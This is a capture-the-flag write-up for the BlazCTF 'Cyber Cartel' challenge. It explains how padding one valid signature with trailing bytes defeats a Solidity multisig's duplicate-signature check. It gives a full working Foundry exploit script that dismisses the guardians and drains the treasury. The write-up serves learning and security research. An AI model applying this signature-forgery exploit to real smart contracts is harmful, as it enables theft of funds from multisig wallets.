

# Cyber Cartel 💎

> [!NOTE]
> \[🟢]&ensp;**EASY**:&emsp;`35` solves

<br />

Cyber Cartel was an **easy**-difficulty challenge released in the midst of the **BlazCTF**. <br/><br/> Its description introduces participants to the main ideas behind the task: it tells about the _**multisig**_ "treasury" and the _**3 guardians**_, one of whom is the _participant themself_.

<br />

> Malone, Wiz and Box recently robbed a billionaire and deposited their proceeds into a multisig treasury.
> And who is Box? The genius hacker behind everything. He's gonna rob his friends...

<br />

## 📑&ensp;TLDR
`CartelTreasury`'s contract `doom()` method transfers all of the `TREASURY`'s money to the caller's address, but it is `guarded` by a "multisig" `BodyGuard` contract. Since `signatures` are accepted no matter the size, whilst `recoverSigner` extracts the `v` / `r` / `s` components of constant length (`32 bytes`) and  `validateSignatures` compares signatures based on their `keccak256` hashes → it is possible to append "garbage" bytes to the same signature and successfully pass the multisig to call `doom()`.

<br />

## 🔍&ensp;Analysis
### What is the goal? 📍
By analyzing the `Deploy.s.sol` forge script and `Challenge.sol` file, we can find out the conditions needed for the challenge to be counted as **Solved**:
```solidity
// [file] Deploy.s.sol
function deploy(address system, address player) internal override returns (address challenge) {
  ...
  challenge = address(new Challenge(address(cartel)));
  ...
}

// [file] Challenge.sol
constructor(address treasury) {
  TREASURY = treasury;
}

function isSolved() external view returns (bool) {
  return address(TREASURY).balance == 0;
}
```

> [!IMPORTANT]
> The main goal throughout the task is to **make the `TREASURY` balance equal to `0 Ether`**.
<br/>

Initially, though, `777 Ethers` are transeferred to `TREASURY` within `Deploy.s.sol`:
```solidity
// [file] Deploy.s.sol
function deploy(address system, address player) internal override returns (address challenge) {
  ...
  t(address(cartel), 777 ether);
  ...
}

function t(address r, uint256 v) internal {
  (bool success,) = r.call{value: v}("");
  require(success, "Failed to send ETH");
}
```

<br />

### What is going on? ⚙️
#### `Deploy.s.sol`
Here, `cartel` is an instance of `CartelTreasury` contract, which is declared in the `CyberCartel.sol` file and is initialized within `Deploy.s.sol`. In the deployment process, "multisig" `BodyGuard` smart contract is initialized and assigned to the `CartelTreasury` with **3 addresses of `guardians`**:
```solidity
// [file] Deploy.s.sol
function deploy(address system, address player) internal override returns (address challenge) {
  ...
  cartel = new CartelTreasury();
  address[] memory guardians = new address[](3);
  guardians[0] = 0xA66bA931da982b11a2f3b89d1D732537EA4bc30D;
  guardians[1] = 0xa66ba931dA982b11A2F3B89d1d732537ea4bC30E;
  guardians[2] = player;
  address bodyguard = address(new BodyGuard(address(cartel), guardians));
  ...
}
```
<br />

#### `CyberCartel.sol`: `CartelTreasury`
`CartelTreasury` declares `doom()`, `gistCartelDismiss()` and `salary()` functions:
> - `doom()`:&emsp;Transfers all of the `treasury`'s funds to the caller's address;
> ```solidity
> function doom() external guarded {
>   payable(msg.sender).transfer(address(this).balance);
> }
> ```
> - `gistCartelDismiss()`:&emsp;Dismisses all of the `guardians`;
> ```solidity
> /// Dismiss the bodyguard
> function gistCartelDismiss() external guarded {
>   bodyGuard = address(0);
> }
> ```
> - `salary()`:&emsp;Slowly, but surely transfers `0.0001 Ether` / `1 minute` from the `treasury`'s funds to the caller's address;<br/>(→ _It would take ~`5396 days` to empty the `treasury` this way!_ 😳)
> ```solidity
> /// Payout the salary to the caller every 1 minute
> function salary() external {
>   require(block.timestamp - lastTimeSalaryPaid[msg.sender] >= MIN_TIME_BETWEEN_SALARY, "Too soon");
>   lastTimeSalaryPaid[msg.sender] = block.timestamp;
>   payable(msg.sender).transfer(0.0001 ether);
> }
> ```
<br/>

`CartelTreasury` also declares the `guarded` modifier, which affects the `doom()` and `gistCartelDismiss()` functions. Functions marked as `guarded` may be called in case there is no `bodyGuard` (all of the `guardians` are dismissed) or the `bodyGuard` is the one who called.
```solidity
modifier guarded() {
  require(bodyGuard == address(0) || bodyGuard == msg.sender, "Who?");
  _;
}
```
<br />

#### `CyberCartel.sol`: `BodyGuard`
The participant can communicate with the `CartelTreasury` via calls to the `BodyGuard` contract's `propose` function:
```solidity
function propose(Proposal memory proposal, bytes[] memory signatures) external {
  ...
  uint256 minVotes_ = minVotes;
  if (guardians[msg.sender]) {
    minVotes_--;
  }

  require(minVotes_ <= signatures.length, "Not enough signatures");
  require(validateSignatures(hashProposal(proposal), signatures), "Invalid signatures");
  ...
  (bool success,) = treasury.call{gas: gasToUse * 9 / 10}(proposal.data);
  if (!success) {
    revert("Execution failed");
  }
}
```

<br />

To perform an action desired by the caller, `BodyGuard` must make sure they have the **votes** / **signatures** from all of the `guardians`, so it `validateSignatures(...)` and acts based on the result.
```solidity
function validateSignatures(bytes32 digest, bytes[] memory signaturesSortedBySigners) public view returns (bool) {
  bytes32 lastSignHash = bytes32(0); // ensure that the signers are not duplicated

  for (uint256 i = 0; i < signaturesSortedBySigners.length; i++) {
    address signer = recoverSigner(digest, signaturesSortedBySigners[i]);
    require(guardians[signer], "Not a guardian");

    bytes32 signHash = keccak256(signaturesSortedBySigners[i]);
    if (signHash <= lastSignHash) {
      return false;
    }

    lastSignHash = signHash;
  }

  return true;
}
```

<br/>

### What is the potential attack vector? 🗡
#### `[*]` Separating the wheat from the chaff
 - 1/3 `guardians` addresses **belongs to the participant**:
```solidity
  guardians[2] = player;
```
 - **2**/3 `guardians` addresses **differ by only one nibble**:
```solidity
  guardians[0] = 0xA66bA931da982b11a2f3b89d1D732537EA4bc30D;
  guardians[1] = 0xa66ba931dA982b11A2F3B89d1d732537ea4bC30E;
```
<br />

> [!NOTE]
> Since **2** `guardians` addresses **differ by only one nibble** → There is no point in trying to find out private keys! <br /><br />
> The _ECC (Elliptic-Curve Cryptography) Security Guarantees_, which public & private keys are based on within the Ethereum network, must prevent such cases. Finding out private keys of addresses this close to each other must be impossible.

> [!IMPORTANT]
> With that being said, it is most likely that participants are expected to **attack the smart contract itself**.

<br />

#### `[+]` Flaws within signature validation
Key points related to the signature validation:
- Since the participant is one of the `guardians` by default, they can create at least **1 valid signature** that passes **1 out of 3** of the `validateSignatures` checks
- `validateSignatures` expects the signatures to be sorted + stores the `keccak256` hash of the previous signature within the loop in the `lastSignHash` variable to **prevent the use of duplicates of signatures**
- `recoverSigner` extracts **3 components** (`r`, `s`, `v`) from the `signature` and uses `ecrecover(...)` – a precompiled EVM contract that returns the address based on to the private key which was used to create the signature:
```
| 000     031 | 032     063 | 064     095 | 096     127 |
|-------------|-------------|-------------|-------------|
|   Length    |      r      |      s      |      v      |
```

<br />

> [!CAUTION]
> `BodyGuard` performs **no checks** against the `signatures` value passed to the `propose(...)`. The Attacker can pass a byte string of any length, including those that exceed the size expected by the `signatures` format:
> ```
> | 000     031 | 032     063 | 064     095 | 096     127 | 128     XXX |
> |-------------|-------------|-------------|-------------|-------------|
> |   Length    |      r      |      s      |      v      |     ???     |
> ```
> <br />
>
> If the Attacker modifies their **1 valid `guardian` signature** by appending some "garbage" bytes → **They "forge" signatures**:
> 1. **Guardian check**:&ensp;Forged signatures result in the same `r`, `s`, `v` values → `recoverSigner` returns one of the valid `guardians` → Check against the `guardians` list gets passed **successfully**!
> 2. **Duplicate check**:&ensp;Forged signatures result in different `keccak256` hashes → values remembered by `lastSignHash` differ → Duplicates check **does not get triggered**!

<br />

> [!IMPORTANT]
> The **attack vector** in this case – is to **exploit Improper Input Validation vulnerability** within `validateSignatures` method of the `BodyGuard` contract to forge signatures based on the valid one we already have.<br /><br />
> Thanks to the signatures forgery, the Attacker gains the ability to **call `guarded` functions** of the `CartelTreasury`, such as `doom()` and `gistCartelDismiss()`, **on their own**.

<br />

## 🔓&ensp;Solution
### Idea 💭

There are **2 main ways** the Attacker may empty the `treasury` with the use of `doom()` and `gistCartelDismiss()` functions provided within the `CartelTreasury`.

Both ways result in the `address(TREASURY).balance == 0` and the task being **solved**! 🎉

<br />

\[👮]&ensp;Let the `bodyguard` get all of the `TREASURY` funds:
> 1. Call `doom()` function via **signature forgery**
<br />

\[🧑‍💻]&ensp;Make the Attacker get all of the `TREASURY` funds:
> 1. Call `gistCartelDismiss()` function via **signature forgery**
> 2. All of the `guardians` are dismissed → The `guarded` modifier is disabled
> 3. Call `doom()` function

<br />

### Exploitation ⚠️

This section follows "the Attacker's path", thus describes the steps mentioned within the second scenario in order to not just empty the `TREASURY`, but also receive the funds.

1. First, we set up the environment:
```solidity
function run() public {
  Challenge challenge = Challenge(
    address(vm.envAddress("CHALLENGE_ADDRESS"))
  );
  uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");
  address player = address(vm.addr(PLAYER_PRIVATE_KEY));

  CartelTreasury treasury = CartelTreasury(payable(challenge.TREASURY()));
  BodyGuard bodyguard = BodyGuard(treasury.bodyGuard());

  vm.startBroadcast(PLAYER_PRIVATE_KEY);
  ...
  vm.stopBroadcast();
}
```

Here, `CHALLENGE_ADDRESS` and `PLAYER_PRIVATE_KEY` are environment variables set using the team-dependent values given by the CTF infrastructure upon challenge deployment
<br/><br/>

2. Then, initialize the  `proposal` that will be used to call `gistCartelDismiss()` to dismiss the `guardians` as a result of a successful signature forgery:
```solidity
  ...
  vm.startBroadcast(PLAYER_PRIVATE_KEY);

  // Initialize the proposal to dismiss the guardians.
  BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
    expiredAt: uint32(block.timestamp + 1000),
    gas: 1000000,
    nonce: 1,
    data: abi.encodeWithSelector(
      CartelTreasury.gistCartelDismiss.selector
    )
  });
  ...
```
<br/>

3. As a `guardian`, create a legitimate, valid signature and sign the `proposal`:
```solidity
  ...
  bytes32 hash = bodyguard.hashProposal(proposal);

  // Legitimately sign the proposal as the player, since we are one of the guardians.
  (uint8 v, bytes32 r, bytes32 s) = vm.sign(PLAYER_PRIVATE_KEY, hash);
  ...
```
<br />

4. Create an array of `signatures`: the Attacker's signature & a **forged signature**, made out of the "garbage" bytes appended to the Attacker's signature. Optionally sort the signatures according to their `keccak256` hashes, so that `signatures` definitely pass the validation process:
```solidity
  ...
  bytes[] memory signatures = new bytes[](2);
  signatures[0] = abi.encodePacked(r, s, v);                  // Attacker's signature
  signatures[1] = abi.encodePacked(r, s, v, bytes("trash"));  // Forged signature
  ...
  // Optional sort
  if (keccak256(signatures[0]) >= keccak256(signatures[1])) {
    bytes memory tmp = signatures[0];
    signatures[0] = signatures[1];
    signatures[1] = tmp;
  }
  ...
```

> [!NOTE]
> Note that only **2 signatures are specified** out of the initial 3 signatures from the 3 `guardians`, since the attacker is one of the guardians and the `propose(...)` function of the `BodyGuard` contract states that this condition reduces the number of votes / signatures required by 1:
> ```solidity
> // [file] CyberCartel.sol
> function propose(Proposal memory proposal, bytes[] memory signatures) external {
>   ...
>   if (guardians[msg.sender]) {
>     minVotes_--;
>   }
> ```
<br />

5. Send the `proposal`. Optionally check if the `guardians` are actually getting dismissed.
```solidity
  ...
  bodyguard.propose(proposal, signatures);

  // Optional check
  require(treasury.bodyGuard() == address(0), "bodyguard not dismissed");
  ...
```
<br />

6. Once the `guardians` are dismissed, call the `doom()` function of the `treasury` to withdraw all of the funds!
```solidity
  ...
  treasury.doom();
  vm.stopBroadcast();
```
<br />

#### Full script 📜

> `[+]` Have a look at the full script:&ensp;[`Solve.s.sol`](./Solve.s.sol) <br />
> `[*]` Execute the script with this command:
> ```bash
> forge script -f '{CTF_RPC_URL}' --broadcast ./script/Solve.s.sol
> ```
<br />

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Script, console2} from "forge-std/Script.sol";

import "src/CyberCartel.sol";
import "src/Challenge.sol";

contract Solve is Script {
    function run() public {
        Challenge challenge = Challenge(
            address(vm.envAddress("CHALLENGE_ADDRESS"))
        );
        uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");
        address player = address(vm.addr(PLAYER_PRIVATE_KEY));

        CartelTreasury treasury = CartelTreasury(payable(challenge.TREASURY()));
        BodyGuard bodyguard = BodyGuard(treasury.bodyGuard());

        vm.startBroadcast(PLAYER_PRIVATE_KEY);

        // Initialize the proposal to dismiss the guardians.
        BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
            expiredAt: uint32(block.timestamp + 1000),
            gas: 1000000,
            nonce: 1,
            data: abi.encodeWithSelector(
                CartelTreasury.gistCartelDismiss.selector
            )
        });
        bytes32 hash = bodyguard.hashProposal(proposal);

        // Legitimately sign the proposal as the player, since we are one of the guardians.
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(PLAYER_PRIVATE_KEY, hash);

        bytes[] memory signatures = new bytes[](2);
        signatures[0] = abi.encodePacked(r, s, v);                  // Attacker's signature
        signatures[1] = abi.encodePacked(r, s, v, bytes("trash"));  // Forged signature

        address signer = bodyguard.recoverSigner(hash, signatures[0]);
        require(signer == player, "invalid signer for first signature");

        signer = bodyguard.recoverSigner(hash, signatures[1]);
        require(signer == player, "invalid signer for second signature");

        // Optional sort
        if (keccak256(signatures[0]) >= keccak256(signatures[1])) {
            bytes memory tmp = signatures[0];
            signatures[0] = signatures[1];
            signatures[1] = tmp;
        }

        bodyguard.propose(proposal, signatures);

        // Optional check
        require(treasury.bodyGuard() == address(0), "bodyguard not dismissed");

        treasury.doom();

        vm.stopBroadcast();

        require(challenge.isSolved(), "not solved");
    }
}
```

<p align="center"></p>
